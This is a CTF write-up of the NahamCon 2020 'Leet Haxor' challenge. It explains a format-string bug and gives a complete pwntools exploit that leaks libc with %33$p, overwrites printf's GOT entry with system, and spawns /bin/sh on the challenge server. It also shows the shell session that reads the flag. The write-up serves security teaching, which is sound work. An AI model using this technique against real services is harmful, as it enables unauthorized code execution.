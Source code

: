 # NahamCon CTF 2020

## Leet Haxor

> 200
>
> 4r3 y0u 4s l33t 4s y0u s4y y0u 4r3??? 
>
> Connect here:</br>
> `nc jh2i.com 50022`</br>
>
> [`leet_haxor`](leet_haxor)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Format string exploit challenge with some constraints, infinite free rides, and a guess.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Partial RELRO; easy ROP, easy GOT.

    
### Decompile with Ghidra

```c
  puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
  __isoc99_scanf(&DAT_00400c54,&local_7e);
  while ((local_7e == '0' || (local_7e == '1'))) {
    getchar();
    puts("Insert text (Max. 100 chrs):");
    fgets(local_78,100,stdin);
    if (local_7e == '0') {
      l33tify(local_78);
    }
    else {
      unl33tify(local_78);
    }
    puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
    __isoc99_scanf(&DAT_00400c54,&local_7e);
  }
```

`main` loops, prompting `Mode [0]:l33tify | [1]:unl33tify | [?]:exit`, then after selecting `0` or `1`, prompts for up to 100 characters, then calls `l33tify` or `unl33tify` based on whether `0` or `1` was selected.  Nothing to see here.

![](l33tify.png)

The `printf` at line 49 is the _first_ venerability.  However the code above will mangle any format-string exploit if there's a matching character.

![](unl33tify.png)

The `printf` at line 40 is the _second_ venerability.  And like `l33tify` above, there is code that will mess with your exploit string.

Fortunately, it's really not that bad.

Using `%p` to leak libc will not be impacted by `l33tify`.  Like `p`, other format-string attack characters such as `h`, `n`, and `c` have also been spared.

> Normally, I'd use the libc leaks to find the version of libc the remote server is using, but instead I opted to guess.  Using strings on the challenge binary, `GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0` was betrayed.  I took a guess and was right.

Setting a breakpoint just before `printf` in `l33tify` and looking at the stack we find a libc leak, way down at parameter 33:

```
0x00007fffffffe470│+0x0000: 0x00007fffffffe620  →  0x0000000000000001 ← $rsp
0x00007fffffffe478│+0x0008: 0x00007fffffffe4d0  →  0x0000000a34343434 ("4444\n"?)
0x00007fffffffe480│+0x0010: 0x0000000000000000
0x00007fffffffe488│+0x0018: 0x00000006f7a62bcd
0x00007fffffffe490│+0x0020: 0x0000000000000000
0x00007fffffffe498│+0x0028: 0x0000000000000000
0x00007fffffffe4a0│+0x0030: 0x00007fffffffe540  →  0x0000000000400a90  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe4a8│+0x0038: 0x0000000000400a2a  →  <main+149> jmp 0x400a38 <main+163>
0x00007fffffffe4b0│+0x0040: 0x00007fffffffe628  →  0x00007fffffffe824  →  "/pwd/datajerk
0x00007fffffffe4b8│+0x0048: 0x00000001f7ffe710
0x00007fffffffe4c0│+0x0050: 0x0000000000000000
0x00007fffffffe4c8│+0x0058: 0x000a21713a300000
0x00007fffffffe4d0│+0x0060: 0x0000000a34343434 ("4444\n"? ← $rdx, $rsi, $rdi
0x00007fffffffe4d8│+0x0068: 0x00000000756e6547 ("Genu"?)
0x00007fffffffe4e0│+0x0070: 0x0000000000000009
0x00007fffffffe4e8│+0x0078: 0x00007ffff7dd7660  →  <dl_main+0> push rbp
0x00007fffffffe4f0│+0x0080: 0x00007fffffffe558  →  0x00007fffffffe628  →  0x00007fffffffe824  
0x00007fffffffe4f8│+0x0088: 0x0000000000f0b5ff
0x00007fffffffe500│+0x0090: 0x0000000000000001
0x00007fffffffe508│+0x0098: 0x0000000000400add  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe510│+0x00a0: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffe518│+0x00a8: 0x0000000000000000
0x00007fffffffe520│+0x00b0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x00b8: 0x0000000000400640  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x00c0: 0x00007fffffffe620  →  0x0000000000000001
0x00007fffffffe538│+0x00c8: 0x7e99182cebfbc400
0x00007fffffffe540│+0x00d0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

> The 6th parameter starts at `$rsp`, then count down (parameters 1-5 are in registers).  Or just test until you get a match.  You do have infinite retries.

We also need to know what parameter our format string is located at, again starting from the top and counting down you'll notice `4444` at parameter 18.  That `4444` was actually entered as `AAAA`, but it got _l33tified_ (lamified).

And that is all the information we need.


## Exploit

### Attack Plan

1. First Pass: Leak libc address
2. Second Pass: GOT `printf` -> `system`
3. Final Pass: Get a shell, get the flag


### Setup

```python
#!/usr/bin/python3

from pwn import *

#p = process('./leet_haxor')
p = remote('jh2i.com', 50022)

binary = ELF('leet_haxor')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64')
offset = 18
```

_Guessing_ Ubuntu 18.04, I just used an 18.04 container with the native libc.

The `offset` of `18` was determined above in the _Analysis_ section.  This will be required by the pwntools `fmtstr_payload` function.



### First Pass: Leak libc address

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline('%33$p')
p.recvline()

__libc_start_main = int(p.recvline().strip(),16) - 231
print('__libc_start_main',hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

The 33rd parameter to `printf` will leak a libc address (`__libc_start_main+231`) from the stack:

```
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

After that, it's easy to compute the libc base address.


### Second Pass: GOT `printf` -> `system`

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')

payload = fmtstr_payload(offset,{binary.got['printf']:libc.symbols['system']})

badchars = b'AaBbEeGgIiOoSsTtZz\r\n'
if any(x in payload for x in badchars):
    print("badchar in payload! exiting!\n")
    sys.exit(1)

p.sendline(payload)
```

pwntools provides very nice format-string functions; calling `fmtstr_payload` with our `offset`, and the addresses to GOT `printf` and libc `system` is all we need, however there's the possibility, due to ASLR, that one of the address could have a "badchar"; to avoid failure, check first.

> I probably should have labeled `badchars` as `l33tchars` for readability.  The `\r\n` are for `fgets`.


### Final Pass: Get a shell, get the flag

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('1')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline("/bin/sh")
```

Now that `printf` is `system`, just send `/bin/sh`, however this time use `unl33tify` to avoid having the string mangled.


Output:

```
# ./exploit.py
[+] Opening connection to jh2i.com on port 50022: Done
[*] '/pwd/datajerk/nahamconctf2020/leet_haxor/leet_haxor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
__libc_start_main 0x7f0c3bdddab0
baselibc 0x7f0c3bdbc000
[*] Switching to interactive mode

$ ls
bin  bin.c  flag.txt
$ cat flag.txt
flag{w0w_y0u_4r3_4_l33t_h@x0r}
```